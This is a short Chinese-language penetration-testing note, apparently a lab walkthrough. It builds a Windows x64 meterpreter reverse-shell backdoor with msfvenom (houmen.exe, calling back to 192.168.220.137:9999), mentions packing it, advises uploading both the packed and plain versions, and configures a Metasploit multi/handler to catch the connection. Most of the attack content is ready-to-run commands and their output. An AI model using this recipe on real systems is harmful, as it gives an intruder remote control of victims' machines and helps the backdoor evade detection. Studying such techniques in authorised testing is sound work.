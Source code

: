 #### 制作后门

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.220.137 lport=9999 -f exe -o houmen.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: houmen.exe
```

#### 加个壳

![image-20220811181014648](./1.assets/image-20220811181014648.png)

#### 上传后门

加壳版和普通版都传，以防万一

![image-20220811181159361](./1.assets/image-20220811181159361.png)

![image-20220811182111039](./1.assets/image-20220811182111039.png)

#### 监听

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specifi
                                     ed)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp                                                                                       
msf6 exploit(multi/handler) > set lhost 192.168.220.137
lhost => 192.168.220.137                                                                                                             
msf6 exploit(multi/handler) > set lport 9999
lport => 9999                                                                                                                        
```